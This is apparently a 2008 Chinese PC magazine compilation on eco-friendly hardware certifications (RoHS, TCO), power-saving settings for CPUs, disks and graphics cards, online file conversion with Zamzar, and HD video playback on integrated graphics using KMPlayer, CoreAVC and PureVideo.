### 2. 产品RoHS认证

按照RoHS的认证规范，不但PCB要满足RoHS要求，而且显卡的显示芯片和显存电容等贴片元件都达标才能够在最终产品上标出相关合格认证。这也是很多板卡虽然PCB合格但是最终产品却无法取得认证的真正原因。

一般而言，RoHS认证都会标记在产品包装盒上明显的位置。随着时间推移，RoHS认证的知名度将会越来越高，而花费很大代价才取得这一认证的厂商自然不会草率对待，而是作为产品的卖点之一，因此这就如同当年TCO标准之与CRT显示器一样，消费者可以在明显的位置看到RoHS认证标志。

## 精选环保产品推荐 环保机箱电源

我们身边的家用电器和电脑等都是常见的电磁污染源。目前，在电脑前工作的人越来越多，工作时间也越来越长。有一个不得不提的问题，电脑辐射正在侵蚀我们的健康。所以选择一款防辐射的机箱是非常有必要的。此外，电源能否节能也是非常关键的问题，这有助于减少用电浪费而造成的污染。

### 1. 省电的电源更受欢迎

电源本身也是一个“耗电器”。输入电源的能量并不能100%转化为供主机内各部件使用的有效能量，这样就出现了一个转换效率的问题。最初，电源转换效率仅有60%左右；在Intel的ATX 12V 1.3电源规范中，规定电源的转换效率满载时不得小于70%；而在ATX 12V 2.X中，对电源的转换效率提出了更高的要求——不得小于80%。除了电源标准，选择具备主动式PFC电路的产品也能提高电源转换效率，也等于是变相节省了电费。此外，最新的ATX 12V 2.31电源对制造过程中的环保也提出了很高的要求，并且强制执行RoHS环保认证。如图8，转换率高、待机功耗低的ATX 12V 2.31电源。

此外，电源节能的意义还在于减少待机功耗。现在，每个主流电源产品都提供+5V Standby，这是在系统关闭后保留的待机电压，用于对系统唤醒的支持。优秀的省电电源采用了待机低功耗控制芯片，此时可以完全关闭其它电压值的供电，而且更需要节省+5V Standby供电。可别小看了这不起眼的待机功耗，其实对于开机时间不长的家用电脑来说，其省电效果甚至比高转换率的电源更加有效。如图9，提高电源转换效率的PFC电路。

### 2. 机箱是防辐射的最后关卡

我们的电脑在工作的时候会产生大量的电磁辐射，如果不加以防范会对人体造成一定伤害。很多消费者已经注意到辐射的危害，在选购电脑的时候指定要通过TCO 03认证的显示器。但是，大部分人却忽视了其它配件产生的电磁辐射，这些辐射主要来源于主板、CPU以及显卡、声卡等设备。这样机箱就成了屏蔽电磁辐射、保护使用者健康的最后一道防线。另外，屏蔽良好的机箱还可以有效地阻隔外部辐射干扰，保证计算机不受外部辐射影响。那么，针对辐射问题，厂商们究竟采取哪些措施呢？显然，采用加厚的镀锌钢板是最直接的方式。一般而言，厚度在0.5mm以上的产品都具有不错的防辐射能力。也许会令大家吃惊的是，小小的机箱散热孔也会对防辐射效果产生很大的影响。为了屏蔽高频率设备产生的电磁波，孔的周长至少要小于1/20的波长，相同面积的孔中，圆形孔的周长最小。所以机箱上的开孔要尽量小，而且要尽量采用圆孔。此外，有些厂商生产的机箱5英寸和3.5英寸槽位的挡板都使用了带有防辐射弹片与防辐射槽的钢片，更加有效地对电磁辐射进行屏蔽。如图10，环保机箱内部的防辐射弹片。

## 硬件与数码：RoHS认证与TCO认证

长期以来，显示器产品健康指标一直仅有瑞典专业职员联盟的TCO标准，即衡量显示器在人体视觉与防辐射方面的性能标准。而目前这一局面将会得到彻底改变，因为RoHS认证已经崛起。

### 1. TCO标准为环保做贡献

按照瑞典专业职员联盟的TCO标准来看，显示器的人体工学设计主要包括两方面：视觉人体工学与工作负载人体工学。其实说得通俗一些，显示器应当具备较高的画质与防辐射表现，从而保护用户的视力。与此同时，健康标准还要求显示器能够在高度方向自由调节，以便用户可以调配自己的座位来达到最佳的观看角度。在最新的TCO 06标准中，甚至还补充了对于显示器亮度的要求，这样才能保证用户在观看屏幕时不至于因为亮度不足而始终放大瞳孔。如图11, TCO 06依然是含金量很高的环保认证。从环保角度来看，显示器中多达30%的塑料包装可能有含溴阻燃剂。TCO 06关注的仅仅是产品包装的环保以及使用效果，在涉及到环境保护方面还是RoHS认证更有权威性，而且也是欧盟地区强制执行标准，这与TCO有着本质区别。首先，RoHS是目前世界上最严谨的对电子电气产品中所含有害物质的限制规范。说简单点，它是规定产品内所含对人体有害的放射性物质和有毒物质的一种标准。从用户健康的角度来看，这比产品的其它认证更加专业，更加重要。在以前，CRT显示器需要产生高能电子束才能驱动显示，所以高达85W的功耗也不以为怪。不过，高度集成化数字节能电路的大规模应用，除了让显示器控制回路更简单外，同时还大大降低行输出管的功耗，使现在的CRT显示器和以前相比节能率达到32％以上。对于目前主流的液晶显示器，它的能耗大小主要取决于背光板、供电电路、控制电路和液晶面板，其中背光板占液晶显示器80％的功耗，常用的节能办法是降低系统电压和提高液晶面板的孔径比，使更多的光通过液晶单元，降低系统的电源需求。另外，一些液晶显示器还采用了‘动态显示电源优化’技术，通过一块显示分析芯片来确定用户的显示状态，从而动态调节屏幕刷新率，减少液晶面板各部件的功耗来降低整机功耗。

### 2. 普通消费者更关心辐射控制

不少厂商对于TCO认证似乎并没有热情，这其中的原因应该是深层次的。TCO所代表的不仅仅是低辐射，还有环保等各方面因素。出于节约成本的考虑，这种做法无可厚非，毕竟TCO还不是国家强制执行标准，但是对于防辐射技术的关注却是不应该因此而打折扣。更为可怕还是那些假冒TCO产品，对于视力的伤害还是很大，而且普通消费者很难有什么方法进行验证。TCO标志好比厂家给消费者的一颗定心丸，代表着一种对消费者健康的承诺。从这个意义上说，TCO认证成为消费者选购CRT显示器最重要的参考依据之一。

显示器的健康环保已经成为很多用户最为关心的问题，然而仅仅依靠TCO认证是远远不够的，毕竟这并非是国家强制执行标准，因此监控力度十分有限。显示器健康环保决不能仅仅依靠TCO，整体的质量监控才是关键。国家的3C标准将是一个很好的辅助，任何不通过3C认证的产品不能在市场上销售。但是3C认证对于显示器辐射标准并没有严格限定，仅仅规定电子元件的防辐射规范，同样关键的屏幕涂层却没有相关要求。

## 硬件与数码：节省电能的设置方法

### 1. 散热

表面上看PC整机的散热和省电表现没有什么联系，其实，两者的关系十分密切。对于主流配置来说，仅仅依靠机箱内部空气自然流动来实现散热几乎是不可能的。当机箱内部温度过高时，CPU、显卡和电源的温控散热风扇会全速启动以帮助散热。所以，只要我们可以通过安装低转速小功率机箱风扇并且优化散热通道来降低温度，那么就可以减少温控风扇启动的时间，从而节省一些电力。

### 2. 设置CPU工作频率

当前主流CPU的性能都非常出色，而运行一些普通软件根本就不要它们‘全情投入’，因此根据负载来调整频率是非常不错的节能方案。Intel的EIST和AMD的C&Q技术都能实现类似的效果，不过真正应用时还需要进行一番设置。首先是在BIOS设置中激活这一功能，因为不少主板默认屏蔽了该功能。进入主板的BIOS设置界面后，一般选择“Power Management Setup”电源管理，然后可以找到“Cool'n'Quiet”或是“EIST”等选项并设定“Enabled”（不同主板菜单位置以及名称不同，具体参见主板说明书）。第二步是到AMD的官方网站上下载并安装相应的驱动程序和监控软件。第三步就是进入操作系统中，如果是Windows 2000/XP/2003的用户，可在控制面板“电源选项”中的“电源使用方案”选项中选择“最少电源管理”。然后，点“确定”退出即完成全部设置。如果是Windows 98/Me的用户，可以在桌面右键点击“属性”，进入“屏幕保护程序”，选择“电源”选项，在“电源使用方案”中选择“最短的电源管理方案”。

|          | Windows 98/Me       | Windows 2000/XP/2003 | Windows Vista |
|----------|---------------------|----------------------|---------------|
| AMD      | 驱动程序、监控软件 | 驱动程序             | 不需要        |
| Intel    | 不支持              | 不需要               | 不需要        |

如果你是Windows Vista的用户，则事情要简单很多。因为Vista内建的电源管理已经相当强大，而且对新型CPU支持都不错，用户既不需要再额外安装CPU驱动，也不需要再安装监控软件，只需要新建一个电源管理方案即可。具体方法是进入控制面板，在搜索栏中输入“Power”进入电源选项，点击其下的“Change Power-saving Settings”改变节能设置，选择“Cool'n'Quiet”或是“C&Q”。

### 3. 硬盘

对于PC硬盘来说，它是其中比较耗电的部件，只要处于读写状态就会耗电，程序对硬盘的访问次数越多，硬盘就会越耗电。有条件的用户可以适当增加物理内存，减少系统使用页面文件（虚拟内存）。此外，对于已经用上4GB内存的用户来说，由于32bit操作系统只能利用到3GB，因此可以考虑使用RAMDISK之类的软件把剩余的1GB内存虚拟成硬盘，然后把页面文件保存在该分区中，这样能够有效减少对硬盘的读写操作。如图13，固定页面文件可避免硬盘频繁读写。

### 4. 光驱

PC光驱也是耗电大户，全速度工作下的光驱要比硬盘更加费电，而且也会产生较大的热量，所以当我们在较长时间不使用光盘的时候最好将光盘从光驱中取出来。对于经常使用的光盘，最好的方法是用虚拟光驱软件将其虚拟到硬盘上，这样是最省电的方法。此外，在看DVD的时候，配合DVDIdle等软件可以强制降速，这也能稍微节省一点电力。如图14，应用好虚拟光驱软件也能节省电能。

### 5. 外部设备接口

一般PC都会有很多外设可以使用，但是请大家注意，这些外设只要连接在PC上，即使不工作也会消耗电力，所以当我们不需要使用这些外设时最好把它们取下来。还有一些端口，比如PS/2、IEEE1394、eSATA等等，在不工作时也会消耗电力。如果大家暂时不会用到这些端口，最好是在BIOS中将其禁用。

## 环保电脑 从细节做起

环保其实不仅仅是避免污染和节省能源，降低噪音其实也算是环保。现在，以DELL、HP、联想、方正为代表的品牌机开始越来越重视噪音问题，并且有合理的风扇设计理念。从对于电源风扇的噪音要求，到CPU温控风扇的使用，乃至独立显卡在合理的情况下使用被动式散热片，这些都已经融入到整个产品设计理念之中。但是，DIY用户就得靠自己独立动手了。

### 1. 让高性能显卡减负

如今主流显卡绝对是电脑系统中的耗电大户，譬如高端的GeForce 9800GX2满载工作的时候，功耗可以达到250W左右，远远超过CPU，如果多卡互连，那么功耗还要惊人。不过，好在这些仅仅是GPU满载时的最大功耗，而在运行普通程序时，其实功耗并不大。以ATI显卡为例，在显示属性中开启ATI Catalyst控制中心后，选择ATI Overdrive页面，然后在Option处勾选“Enable ATI Overdrive clocks for 3D applications only”。这个选项的意义就在于只在使用3D程序的时候开启预设的高频选项，平时则以常规频率运行，这可在一定程度上节约电能，而在玩游戏的时候也可以保证性能。对于NVIDIA显卡来说，还可以专门针对特定的3D程序指定频率，更加方便。这里需要特别指出的是，千万不要安装诸如Omega之类的各种第三方驱动，因为这可能会令频率控制功能失效。

另外，很多入门级的3D游戏根本不需要当前主流显卡全力以赴地运行。譬如，如果用的显卡是GeForce 9600GT，仅仅跑跑《魔兽争霸3》的话，实在是小菜一碟。可是，GPU并不像CPU那样可以根据负载来调整频率，显存频率更是一直不变。对此，大家可以通过RivaTuner等超频工具软件来设置，只不过此时是降频而非超频。唯一要注意的是，少数显卡因为使用了时钟发生器，因此降低频率后会出现花屏问题。

### 2. 追求噪音与散热的平衡点

对于那些追求性能表现的发烧友而言，打造一台静音电脑可就不那么容易了。购买静音电源和低转速机箱风扇可以解决这两个噪音源，但是高性能的显卡和CPU都是发热大户，此时更换合适的散热器就十分关键，这要求我们掌握好最佳平衡点，并且尽可能使用出色的散热技术。

#### （1）热管散热器值得推荐

拥有散热性能与静音效果最佳平衡点的热管散热器在近期大受欢迎。如图15，200元以内已经可以买到很不错的热管散热器了。

的热管散热器。热管散热器其实属于被动散热和风冷技术的结合，因此大多数热管散热器还是拥有一个风扇来主动散热。对比普通风冷技术，热管散热器最大的优势便是摆脱对暴力高转速风扇的依赖，而且强大的瞬间热量转移能力对于提高CPU稳定性以及超频都是大有裨益的。与同样是“散热高手”的水冷、液氮散热方案相比，尽管热管散热器的散热性能略为逊色一些，可是其成本以及安全性都有很明显的优势。

## （2）选择独立式显卡散热器

显卡的散热结构并不复杂，GPU核心与散热片之间使用胶水紧紧地粘合，而风扇利用散热片之间的空隙固定。毫无疑问，大多数中低价位显卡所使用的散热片不够大，这也是超频幅度难以提高的原因之一。为此，建议大家使用表面积更大的全铜质散热片。如图16，全铜散热片与配套风扇。显卡风扇建议选择滚珠风扇，它利用多个钢珠来作为减小摩擦的介质，所以风力大、寿命长、噪音小且不用加润滑油。此外，如果大家不介意占据一个PCI插槽，那么选择那些体积较大的显卡风扇将能取得更加出色的效果。安装显卡散热设备并不困难，基本上与CPU风扇没有区别，而唯一值得我们注意的便是散热片与GPU表面的粘合。其实，选用具有粘性的导热硅脂是最佳的选择，一般电脑城都有卖。部分产品采用背夹来固定，不过稍有设计不当就会出现一些兼容性问题，这类产品安装起来并不方便。

## 3. 给CPU “降压”

除了超频与MoDT，现在一些执著的玩家开始玩起零噪音的HTPC。零噪音的好处自然无需我们多提，而且还能大幅度降低功耗。此外，不少用户还喜欢在家里装配第二台电脑，网上速成“二奶机”，主要用于P2P下载或者偶尔朋友来家里玩时可以进行局域网对战。对此，一般并不需要很好的性能，反而是把省电放在第一位。

> 小贴士：省电PC一年能为你节约多少钱？
仅仅以省电的电源为例。新的ATX 12V 2.3标准中规定电源在任何状态下转换效率都必须达到80%或以上，也就是符合80Plus规范。而大部分普通电源的转换效率仅仅70%左右。以标称输入功率400W的电源产品为例，损耗功率约40W。对于一台每天工作8小时的PC，一天下来可以节约0.32度(千瓦时)，一年下来就是117度电。此外，优秀的省电电源可以实现1W待机功耗，而普通产品普遍高达5W左右。简单计算就可以得出，购买一款省电电源一年直接可节约86元。至于CPU、硬盘与显卡等，节能产品所带来的功耗节省更加明显。假设CPU造成30W差距，硬盘造成10W差距，显卡造成20W差距，那么一年又可以节省下106元。好了，我们基本可以得出这样一个结论：一台节能PC一年约节约电费200元，假如是商业用电的话，节省金额还要高。如果以PC五年使用寿命期来计算，那可就是1000元啊！想想吧，你的主机配置才价值多少钱？

在用电脑的过程中，经常需要对文件的格式进行转换，如要把一些歌曲文件转换为MP3，这样可以方便我们在MP3机里面进行播放，有时候还需要把视频转换为3GP，这样可以用来在手机上进行播放，当然还有一些其他文档文件的转换，这些转换都要安装相应的转换软件才可以，所以转换起来很麻烦。其实在网络上已经有专门提供转换服务的网站，我们只要把要转换的文件上传到网站中，设置一下转换后的文件格式就可以进行转换了。

## 转换文件，在线搞定

zamzar是一个很不错的在线转换网站，在这个网站上可以转换文档、图片、视频和音频等多种文件格式，转换好的文件直接通过电子邮件发送给你，你只要到邮件里面去提取文件就可以了。下面我们就来介绍一下具体的使用方法吧。

打开首页（http://www.zamzar.com），在“Convert File(s)”标签下我们可以看见有4个操作步骤：

- 第一步：点击“浏览”按钮来选择要转换的文件
- 第二步：选择需要转换后的格式，如我们想把mp3格式转换为wav格式
- 第三步：输入你的信箱地址，这样转换好的文件就可以发邮件通知你下载
- 第四步：点击“Convert”按钮就开始转换文件了

等文件转换好后，会弹出一个页面，提示你文件的下载链接已经发送到你刚才的邮箱里，你只要打开邮件点击下载地址就可以得到转换后的文件。

| Convert Files | Download Videos | Manage Files |
| --- | --- | --- |
| Step 1: Select files or URL to convert<br>(up to 100MB - want more ?)<br>e.g., http://youtube.com/watch?v=MtcO4J2RjC3<br>(click here for more info) | Step 2: Choose the format to convert to:<br>3gp | Step 3: Enter your email to receive converted files:<br>ajian@gmail.c |

在这个网站上还可以转换一些在线视频网站上的视频，如比较有名的Youtube、Google视频等。点击“Download Videos”标签：

- 第一步：把要转换的视频页面地址复制到里面
- 第二步：选择一下需要转换的视频格式，比如需要把视频转换为3GP格式，那只要在下拉菜单中选择3GP就可以了
- 第三步：输入你的信箱地址
- 第四步：点击“Convert”按钮就可以开始转换在线视频了

转换完成后，网站也会发送一封邮件给你，里面有转换后文件的下载地址（如图）。

◆文/飞云

## 谁说高清就是烧钱
——整合平台如何玩转高清世界

高清俨然成为一个时髦的名词，3D游戏已经不是发烧友们唯一的最爱。但是，千万不要误以为高清就是“烧钱”的玩意儿。其实，只要配置合理并且结合一些技巧，那么享受纤毫毕现的高清世界就并不难，而且也不会耗费太多的成本。对于越来越普及的集成显卡而言，大家也可以玩转高清，我们将会向大家介绍一些优化技巧以及硬件升级建议。总之，不要因为高清的名头而吓跑了自己，或是盲目追求高端配置进行升级，因为整合平台也能玩转高清世界！

◆文/阿亮

## 高清视频应用：集成显卡开辟新舞台

以往我们衡量集成显卡的标杆总是3D游戏。但是，当3D游戏出现技术分化之后，我们越来越明白其实“枪球车”之类的发烧级游戏难以在整合主板上寻找到快感，而大部分网游和即时战略游戏却是整合主板的乐园。对于如今的集成显卡来说，能否在高清时代展现出完美的视频解码能力才是关键。如同十多年前我们为光靠CPU实现VCD解码力不从心而郁闷一样，现在高编码速率的高清视频也难以让CPU独挑大梁。集成显卡虽然没有物理形式上独立的GPU，但是它依然能够对解码高清视频作出一定的贡献，只是这需要大家更加细致的优化，掌握一些基本操作，并且努力杜绝性能瓶颈。

### 1. 集成显卡的高清舞台在哪里

谈论高清时代自然不能脱离HDTV。HDTV是DTV标准中最高的一种，即High Definision TV，故而称为HDTV。事实上，我们没有必要过多拘泥于HDTV的技术定义，只要明白这是一种高分辨率的视频即可。HDTV甚至并非是一项技术标准，而只是高分辨率视频的“别名”。笼统来看，我们可以将主流HDTV分成720p、1080i以及1080p这三种标准，不过这从根本上说也只是继承模拟视频的算法，主要是为了与原有电视视频清晰度标准对应。对于真正的HDTV而言，决定清晰度的标准只有两个：分辨率与编码算法。

除了分辨率是HDTV的关键，编码算法也是不可忽视的环节。HDTV基本可以分为MPEG2-TS、H.264和VC-1（WMV9-HD）这三种算法，不同的编码技术自然在压缩比和画质方面有着不小的区别。相对而言，MPEG2-TS的“压缩比”较差，而VC-1和H.264更加先进一些。而十分容易理解的是，“压缩比”较差的编码技术对于解码环境的要求也比较低，也就是说并不需要高性能的硬件设备。目前，我们在讨论整合主板中集成显卡的高清解码能力时，其实主要是针对H.264与VC-1算法。由于这种算法的压缩比和编码速率都较高，因此解码时对硬件性能提出较高的要求。

如果是RMVB或是普通MPEG4视频，那么我们在选择显卡时实在没有什么好犹豫的，因为任何具备128MB显存的显卡或者2006年之后发布的整合芯片组都足够应付。但是，一旦涉及到HDTV高清视频解码，就不全然如此了。对于高清视频解码而言，仅仅依靠CPU肯定不是理想的选择，此时不仅容易在高编码速率下显得不流畅，而且在播放视频时根本无法同时运行其他程序。

### 2. 视频优化技术成为分水岭

HDTV高清编码的处理一般分为几个步骤，每个步骤会完成相应的任务，而解码的时候也会存在这些步骤，从而达成影片的顺利播放。这些步骤都必须被执行，PC上自然是CPU和显卡GPU这两个配件来执行。我们播放高清影片导致的不流畅大都是因为CPU占用率过高，而根本原因则是CPU处理了大部分步骤或者负载很高的步骤。

作为通用型处理器，尽管CPU的性能还是远远高于显卡GPU，但是面对单一的应用，其作用往往并不明显。做一个形象的比喻，GPU就好比是一个进行过心算培训的神童，能够以惊人的速度实现快速口算。而即便是双核心乃至四核心处理器则是一个正规大学生，尽管在面对微积分等高等数学问题时更有应对能力，但是显然心算速度远不及神童。因此，我们会发现再好的CPU，只要显卡GPU彻底不支持高清解码，那么其整体效果还是不尽如人意；相反，只要显卡GPU完全支持高清解码，那么对于CPU的性能要求就很低了。对于集成显卡来说，尽管我们看不到独立形式的GPU，但是其实质结构却是真实存在的。

目前nVIDIA和AMD-ATI作为独立GPU的主要两大研发厂商，其集成显卡的性能普遍强于Intel，这点不仅表现在3D速度和游戏兼容性方面，就连高清视频解码方面也展现得淋漓尽致。相对来说，Intel集成显卡尽管占有极高的市场份额，可实际高清视频应用的表现还是差强人意。

集成显卡能解决的问题就是它来承担高清解码过程中那些负载很高的步骤，从而彻底解放CPU，避免出现丢帧现象。可能大家会担心集成显卡如此薄弱的性能是否足以胜任高清解码，但是事实证明，高清解码和3D游戏完全不同，此时需要的不是像素渲染管线以及纹理填充，只要显卡主频够高并且支持解码加速甚至硬件解码就可以了。从上表来看，Intel集成显卡的表现并不是很理想。尽管Clear Video技术的出现一度让人眼睛一亮，可是无法支持H.264高清视频是最大的遗憾。同样，VIA和SiS也没能集成以往独立显卡时代的精神，其集成显卡普遍技术滞后，无法满足高清应用的需求。现在，真正完全让人满意的只有nVIDIA和AMD-ATI，但是即便是这两大厂商推出的集成显卡，也有不少属于不太适合高清应用的产品。

### 小贴士：通用的优化方法

> 对于集成显卡来说，其实在无法支持解码加速的情况下，其频率以及显存带宽也很重要。因此，如果发现播放高编码速率的H.264视频略微不流畅时，可以适当对集成显卡进行超频，同时开启双通道内存，最好使用更高的内存频率，因为这对于集成显卡而言等于是提高了显存带宽。

改善高清解码表现
适当超频集成显卡的主频有助于

## Intel整合平台：CoreAVC软件是灵丹

尽管Intel上一代的Extreme系列集成显卡因为孱弱的高清解码能力而饱受批评，但是2007年市场上最主流的Intel集成显卡却换成了GMA3000和GMA X3000系列，整体表现有了较大幅度的加强。在新一代的GMA X3000图形芯片中，Intel公司不但进一步改进其3D架构，还引入Clear Video技术，针对日渐重要的高清视频节目播放进行优化，改进播放质量和视频压缩技术，缩小了和nVIDIA之间的差距。

非完完全全的硬件解码，而是解码加速。但是即便如此，GMA X3000系列在播放1080p规格的MPEG-2视频时也非常流畅，即便是配合单核心的Celeron 4XX系列，也能将CPU占用率控制在50%以下，不会有任何丢帧的现象出现。

不过非常遗憾的是，大家很看重的H.264编码却无法得到GMA X3000系列的任何支持。虽说Intel的Clear Video视频播放引擎也属于可编程设计，不排除Intel公司日后会加入与nVIDIA PureVideo相类似的H.264高清视频播放加速及视频转换加速功能，但是目前还没有任何实质性进展。

### 1. 除了H.264一切好办

Clear Video技术的主要功能包括高分辨率（1920×1080）MPEG-2和VC-1格式高清视频文件的播放加速功能，带硬件加速的高级像素自适应反交错技术、色彩调整、支持HDMI/HDCP数字信号传输接口等。需要注意的是，此时并不

CfanBoundEdition·2008

在软件的选择与‘组合’方面，播放HDTV比传统视频更复杂。传统视频通常用某个支持该格式的播放器即可直接播放，而HDTV视频则存在更多技巧。分离器、视频和音频解码器缺一不可，毕竟播放高清视频绝对不是一个‘影音风暴’就能解决的，还需要各种插件。

### 2. KMPlayer+月光组合

KMPlayer是Intel集成显卡用户首选的高清视频播放工具，它功能强大、支持媒体类型较多、系统占用率低。与‘月光组合’搭配，在单核CPU配置上播放除了H.264编码的高清视频均一帆风顺。这里的‘月光组合’其实是另一种播放软件‘Moonlight-Elecard MPEG Player’的三大核心：视频解码器（Moonlight Odio Dekoda）和分离器（Moonlight-Elecard MPEG

在KMPlayer中设置解码器

Demultiplexer）。其实，‘Moonlight-Elecard MPEG Player’也是一款相当优秀的MPEG2播放软件，不论是占用率，还是色彩还原度均在同类软件中首屈一指，但无法支持中文字幕是最大遗憾。所以，我们只能将‘Moonlight-Elecard MPEG Player’的三大核心与KMPlayer合为一体，打造最适合低配置电脑使用的优秀播放器。

KMPlayer Moonlight-Elecard MPEG Player都安装好之后，打开KMPlayer，在菜单上点击‘参数选项’进入设置界面。在项目栏中，点击‘解码器’ → ‘外部视频解码器’ → ‘搜索扩展解码器’，选择‘搜索’。KMPlayer会列出Windows系统中曾经安装的各种解码器，而‘Moonlight-Elecard MPEG Player’所附带的‘月光核心’也包括在内，此时请点击‘确定’按钮。

随后再次进入‘解码器’ → ‘外部视频解码器’，将右侧的‘MPEG2 Video’类型更改为‘Moonlight-Elecard MPEG2 Video Decoder’；再进入‘扩展音频解码器’，将右侧‘MPEG2 Sound’的类型设置为‘Moonlight Odio Dekoda’。最后，进入‘解码器’ → ‘滤镜管理器’，点击‘添加已注册的滤镜’按钮。在添加滤镜列表中选中分离器——‘Moonlight-Elecard MPEG2 Demultiplexer’并确定，回到上一层窗口将这个滤镜的优先级设置为‘强制使用’即可。

### 3. H.264解码怎么办

通过以上设置，其它编码格式已经能够顺利解决，但是H.264还是困扰大家的难题。由于Intel集成显卡本身无法支持H.264解码，那么就只能纯粹使用软解码。如果纯粹使用播放软件在不进行任何优化的情况下播放H.264高清视频，那么只要编码速率在20Mbps以上，即便是双核奔腾也难以抵挡，酷睿2会略微有丢帧现象。而如果使用更加薄弱的单核低频CPU，其效果更加难以让人接受。

在这种情况下，使用CoreAVC软解码辅助是一条捷径。CoreAVC是一家名为Core Codec的软件厂商推出的高清视频播放解码器，它有复杂的设置步骤，只需要根据自己的要求设置滤镜的相关选项即可，主要是无法达到正常播放的用户通过降低画质或者跳过解码去块的步骤，从而能够达到正常观看的目的。其中，滤镜能够输入的格式包括AVC1、H.264、VSSH等等，所以这款滤镜无法解码RM、AVI等等主流的视频格式，这也就是当用户需要观看H.264的影片时，才需要调到这款解码器。

CoreAVC的设置主要是选项菜单中的‘deblocking（解码去块）’。这一单元可以消除H.264压缩编码可能产生的马赛克，提供H264标准画质。传统播放软件都执行这个操作，只是默认状态非常消耗CPU资源，而CoreAVC的奥妙在于对此‘偷工减料’。虽然这样损失了画质，但是还有什么比流畅度更重要呢？对平均码率10Mbps编码速率以下的H.264视频，建议选Standard deblocking。当然，单核心CPU用户也可以选‘skip all deblocking’。至于更高编码速率的H.264视频，skip all deblocking选项几乎是万能的方法，可有效改进解码流畅度。此外，‘skip b-frame deblocking’是比较折中的选择，大家可以根据CPU性能以及H.264视频的编码速率来灵活使用。

CoreAVC软解码中对解码去块的设置

## nVIDIA整合平台：用好Pure Video功能

自从nVIDIA C51开始，nVIDIA对集成显卡的视频功能就一直高度重视，几乎保持了与独立显卡同步的发展进度。但是，不同的nVIDIA集成显卡对于Pure Video功能的支持力度是不同的，这需要大家格外注意。尤其是Intel平台的nVIDIA MCP73，居然完全没有Pure Video功能。对此，我们只能建议大家参考Intel集成显卡部分的解决方法。

拥有Pure Video技术的nVIDIA集成显卡很适合播放高清视频

### 1. 了解Pure Video功能的区别

对于有幸使用nVIDIA整合平台的用户来说，安装好最新版本的驱动以及在播放软件中打开Pure Video功能是关键。一旦做好了这两步，那么MPEG2和VC-1高清视频将会非常轻松，即便是面对25Mbps以上编码速率的H.264视频，只要配合最入门级的双核CPU，一样可以保持在40%以下的CPU占用率，而且不会有丢帧现象出现。但是，并非所有的NVIDIA显卡都支持Pure Video功能，而且Pure Video功能分为三代，分别是第一代Pure Video、Pure Video HD以及第二代Pure Video。目前，第二代Pure Video还没能应用到集成显卡中，只有尚未正式发布的MCP78具备这项功能，而NVIDIA C51/C61基于第一代Pure Video，NVIDIA MCP68则基于Pure Video HD。Pure Video更大的意义在于支持更加高效率的解码补偿，这可以进一步降低对CPU的依赖，让系统在播放高清视频时可以运行其它程序。不过，其实这两者之间的差距并不是很大，只要有一款入门级双核速龙支持，那么基本30Mbps左右的H.264视频都能轻松胜任，此时CPU占用率约在60%以下。不过大家需要特别留心的是，部分NVIDIA的简化版集成显卡去掉了Pure Video，或者削弱了Pure Video功能对于1080p分辨率视频的支持。此外，少数主板厂商又通过硬件修改绕过了NVIDIA的一些限制，所以造成的现在的局面非常混乱。然而可以肯定的是，是否支持Pure Video可以通过PowerDVD等播放软件来验证，关于这个问题我们会在下面的内容详细介绍。

### 小贴士：为什么无法识别Pure Video
如果你的显卡具备了Pure Video技术，但又无法开启Pure Video硬件加速选项，那么有两个原因：首先是驱动版本不支持，这个基本都可以从PowerDVD启动画面里是否包含Pure Video HD图标就可以看出来。发生这一现象的话，建议到驱动之家直接下载最新版本的官方驱动。其二是片源为PureVideo无法支持的格式。部分NVIDIA集成显卡的Pure Video性能比较弱，为了避免丢帧现象出现，NVIDIA通过驱动限制其硬件解码功能，比如说C61可以支持720P的MPEG2/VC-1/H.264解码，但却无法支持1080P的解码。

至于KMPlayer，一般是配合NVIDIA Video Decoder以及NVIDIA Audio Decoder来使用，这两款解码器都需要下载后独立安装。随后，打开KMPlayer的参数设置，在解码器的内部视频解码器里将选项全部取消，这样就不会用KMPlayer的内置解码器。然后，选择外部视频解码器，此时一般需要先进行搜索，KMPlayer会把可以识别到的解码器都列表出来以供选择。

### 2. 如何打开Pure Video功能
并非所有的视频播放软件都支持Pure Video硬件加速功能，而当前普遍被NVIDIA用户所使用的播放工具主要是PowerDVD和KMPlayer这两款，其中PowerDVD的设置最为简单，KMPlayer的功能最为全面。在PowerDVD中打开Pure Video功能非常简单：点击右键打开配置单，点选配置选项，此时在硬件加速选项里，PowerDVD可以识别出Pure Video功能，此时主要勾选后点击确定即可。





## AMD-ATI整合平台
ATI显卡在视频解码方面的表现一直非常出色，因此其集成显卡也有着相应的优良传统。目前流行的AMD整合平台主要是AMD 690G和AMD 790G，这两款集成显卡对于高清视频的支持力度还是有比较大的区别。

### 1. AMD 690G：配合高性能CPU
AMD 690G所整合的集成显卡能够支持ATI AVIVO视频优化技术，但是这并不代表能够在解码VC-1和H.264时起到作用。但是，考虑到AMD 690集成的Radeon X1250显卡还非常不错，即便是没有视频解码支持，其性能也远远强于Intel显卡，而且AVIVO技术可以优化高清视频的画质表现，所以还是建议大家在播放器中打开其硬件技术功能。依旧以PowerDVD为例，点选配置选项，此时在硬件加速选项里，PowerDVD可以识别出“ATI AVIVO”功能。勾选之后，只要播放解码器能够支持的视频编码格式，PowerDVD都可以调用硬件加速功能（AMD 690只能支持MPEG2高清）。至于H.264格式的视频，一般建议使用终极解码。其实，终极解码并非一个全新开发的解码器软件，而是一个非常庞大的解码器包。它通过对多款视频和音频解码器的整合并统一管理、统一设置，为PC多媒体用户提供了巨大的便利。这款软件可以在国内绝大多数软件下载网站找到。别看它大，它可是能够为您播放高清视频保驾护航的利器。



安装完成以后，桌面上会多出两个图标：“My Player”和“解码设置中心”。My Player是在安装过程中让您设置的默认播放器，而“解码设置中心”就是打开安装过程中所见的设置界面。打开“解码设置中心”，整个设置界面划分成若干区域，其中最主要的是解码器，建议在“H264视频解码器”中选择“CLAVC”，并且勾选“HA”，即激活硬件加速，此时能够最大限度利用显卡的资源。从测试情况来看，一般只要CPU是双核速龙并且主频达到2.2GHz以上，那么播放25Mbps速率的1080p H.264视频还是很流畅的。

### 使用终极解码时一定要选择“CLAVC”，并且勾选“HA”
### 2. AMD 790G：一切设置省心省力
